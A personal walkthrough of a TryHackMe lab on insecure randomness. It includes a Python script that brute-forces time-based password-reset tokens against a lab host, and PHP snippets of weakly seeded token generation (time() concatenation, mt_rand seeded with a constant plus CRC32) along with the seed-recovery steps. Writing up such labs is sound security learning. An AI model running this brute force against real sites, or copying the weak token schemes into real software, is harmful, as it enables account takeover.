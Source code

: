# Insecure randomness

Yet again, another one. This one was quite a hard one for me to understand, but I got it eventually

Insecure randomness occurs when web applications use predictable or poorly generated random values, making them vulnerable to attacks. While randomness is essential for securing tokens, session IDs, and cryptographic keys, insecure implementation can allow attackers to exploit these predictable values to bypass authentication, hijack sessions, or even decrypt sensitive data. 

Fundamental concepts to better understand this vulnerability are: Randomeness, Entropy, cryptographic keys, session tokens, unique identifiers and seeding

Randomness refers to the lack of pattern or predictability in data, making it an essential component in secure systems.Image of three colorful dice showing different numbers. In cryptography, true randomness ensures an attacker cannot predict values such as keys, tokens, and nonces.

Entropy represents the amount of randomness or unpredictability in a system and is often used to assess the security of cryptographic keys, tokens, or random values. Higher entropy indicates greater uncertainty, making it more difficult for attackers to predict or guess the values, which is essential for secure cryptographic operations. Low entropy can lead to weak security, increasing the risk of attacks like brute-forcing or token prediction. 

Cryptographic keys are secret values used in algorithms to encrypt and decrypt data, ensuring confidentiality, integrity, and authentication. They are critical components in symmetric and asymmetric encryption methods and must be securely generated and managed to prevent unauthorised access. The strength of a cryptographic key depends on its length and randomness.

Session tokens and unique identifiers are used to maintain user sessions and track interactions in web applications. They must be securely generated with sufficient randomness and uniqueness to prevent token prediction and session hijacking. Proper management and protection of these tokens are essential to ensure secure user authentication and authorisation.

Seeding refers to providing an initial value, known as a seed, to a secure cryptographic function to generate a sequence of random-looking numbers. While these secure functions produce numbers that appear random, the sequence is entirely determined by the seed, meaning the same seed will always result in the same sequence.

Skipping to the practical aspect of the room

# Practical Scenario

I was given a login page to work with and this is where things get interesting. I was going to abuse the forgot password feature of the login page.

![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_23-30-50.png)

![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_21-25-08.png)

So, I had to understand how the site forgot feature randomness works and with that, I was able to understand the randomness was not random. I got to know that the site sends a link to your email and this link had the userid and the time the token was generated as the token.

> PHP code of the token generation 
		
		$stmt = $db->prepare("SELECT * FROM users WHERE username = :username");

        $stmt->execute([':username' => $user_id]);

        $user = $stmt->fetch(PDO::FETCH_ASSOC);

        if ($user) {

	    $token = $user_id . time();
            $update = $db->prepare("UPDATE users SET reset_token = :token WHERE username = :username");

With this knowledge and the provided python code in the room

> Python code

	import requests
	import sys

	# Function to brute force the reset token
	def brute_force_token(username, start_timestamp):
    	url = "http://random.thm:8090/case/reset_password.php"
    
    # Try tokens within a range of -5 minutes
    	for i in range(-300, 0):
        	current_timestamp = start_timestamp + i
        	token = f"{username}{current_timestamp}"
        	params = {'token': token}
        
        	response = requests.get(url, params=params)
        
        	# Check if the token is valid
        	if "Invalid or expired token." not in response.text:
            print(f"Correct token identified: {token}")
            return token
        else:
            print(f"Tried token: {token} (Invalid)")
    
    	print("No valid token found in the given range.")
    	return None

	if len(sys.argv) != 3:
    	print("Usage: python exploit.py <username> <unix_timestamp>")
    	sys.exit(1)

	username = sys.argv[1]
	start_timestamp = int(sys.argv[2])

	brute_force_token(username, start_timestamp)


![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_21-25-47.png)

![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_21-25-33.png)

I can now bruteforce the token with the python code till I get the correct token for the reset password link. With this, I can get access to any account using this means as far as I have the username of the account.



Moving on...........

## Predicted Seed in PRNGs

In this scenario, we will explore how using predictable seeds to generate tokens in a magic link login system can lead to account takeover. The magic link token is generated using PHP's mt_rand() function, which is seeded with a combination of the CRC32 value of the user’s email address and a random constant. By analysing the token generation process, an attacker can reverse-engineer the seed and predict valid tokens.

![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_23-31-00.png)

Going throught the link generate to the email, the token in the link is a base64 encoding and with analysis of the server-side code provided

> Server-side code

	mt_srand(CONSTANT_VALUE + crc32($email));

	$random_number = mt_rand();
	$token = base64_encode($random_number);


![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_23-31-33.png)
Image of the CRC32 for the target email

Decoded the Base64 string and got a number

Using php_mt_seed, I ran a scan to get the seed for the number. Upon identifying the seed, I used cyberchef to get the CRC-32 Checksum for the users email. With that, I was able to do the maths of subtracting 970731467 from 970732804, I got 1337 which is the used by the attacker to predict the generated token by adding the value to the CRC32 of the user's email

![image alt](https://github.com/bakel243687/TryHackme/blob/cb958a53a08fb4d547603a04bcaec3cefb907303/Walkthroughs/Images/Screenshot_2025-10-02_23-29-49.png)
